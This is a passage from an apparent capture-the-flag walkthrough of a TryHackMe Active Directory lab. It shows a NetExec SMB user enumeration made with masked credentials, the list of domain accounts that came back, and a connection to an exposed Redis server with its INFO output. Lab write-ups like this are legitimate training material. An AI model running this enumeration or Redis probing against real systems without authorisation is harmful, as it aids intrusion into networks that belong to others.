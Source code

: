 
```bash
:~/VulnNetActive# nxc smb xx.xxx.x.xxx -u 'enterprise-security' -p '***************' --users
SMB         xx.xxx.x.xxx    445    VULNNET-BC3TCK1  [*] Windows 10 / Server 2019 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False) 
SMB         xx.xxx.x.xxx    445    VULNNET-BC3TCK1  [+] vulnnet.local\enterprise-security:***************
SMB         xx.xxx.x.xxx    445    VULNNET-BC3TCK1  -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         xx.xxx.x.xxx    445    VULNNET-BC3TCK1  Administrator                 2021-02-24 00:49:00 0       Built-in account for administering the computer/domain 
SMB         xx.xxx.x.xxx    445    VULNNET-BC3TCK1  Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         xx.xxx.x.xxx    445    VULNNET-BC3TCK1  krbtgt                        2021-02-23 09:32:07 0       Key Distribution Center Service Account 
SMB         xx.xxx.x.xxx    445    VULNNET-BC3TCK1  enterprise-security           2021-02-23 23:01:37 0       TryHackMe 
SMB         xx.xxx.x.xxx    445    VULNNET-BC3TCK1  jack-goldenhand               2021-02-23 21:54:57 0        
SMB         xx.xxx.x.xxx    445    VULNNET-BC3TCK1  tony-skid                     2021-02-23 21:56:53 0        
SMB         xx.xxx.x.xxx    445    VULNNET-BC3TCK1  [*] Enumerated 6 local users: VULNNET
```

<br>
<h2>Redis</h2>

```bash
:~/VulnNetActive# apt install redis-tools
```

```bash
:~/VulnNetActive# redis-cli -h vulnnet.thm
vulnnet.thm:6379>
```

<img width="1091" height="142" alt="image" src="https://github.com/user-attachments/assets/b750486e-2402-46a3-96d7-237fce0b9761" />

<br>
<br>

```bash 
vulnnet.thm:6379> INFO
# Server
redis_version:2.8.2402
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:b2a45a9622ff23b7
redis_mode:standalone
os:Windows  
arch_bits:64
multiplexing_api:winsock_IOCP
process_id:2112
run_id:fd5deedf4803915e1c9d9977c607e834a7d47642
...
```
